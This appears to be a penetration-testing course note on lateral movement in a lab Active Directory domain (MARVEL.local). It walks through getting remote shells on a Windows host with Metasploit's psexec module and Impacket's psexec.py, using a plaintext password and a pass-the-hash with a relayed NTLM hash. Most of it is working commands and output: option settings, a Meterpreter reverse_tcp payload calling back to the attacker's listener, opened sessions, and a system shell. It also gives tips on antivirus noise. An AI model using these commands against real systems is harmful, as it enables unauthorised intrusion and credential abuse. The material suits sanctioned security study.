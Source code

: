 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

```shell
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > unset smbdomain
Unsetting smbdomain...
[!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
```

Now we need our hash, Note that the **NT** part of this hash is the most important, but we need to select both the **LM** and **NT** part for this attack

![](https://i.imgur.com/c8XeAIx.png)

```shell
msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445 as user 'administrator'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 3 opened (192.168.0.157:4444 -> 192.168.0.166:54623) at 2023-09-16 17:47:14 -0400

meterpreter > 
```

2. Psexec.py

We can get shell on target system, using this syntax :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:'Password1'@192.168.0.166

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file fsodQFwB.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service fqSt on 192.168.0.166.....
[*] Starting service fqSt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```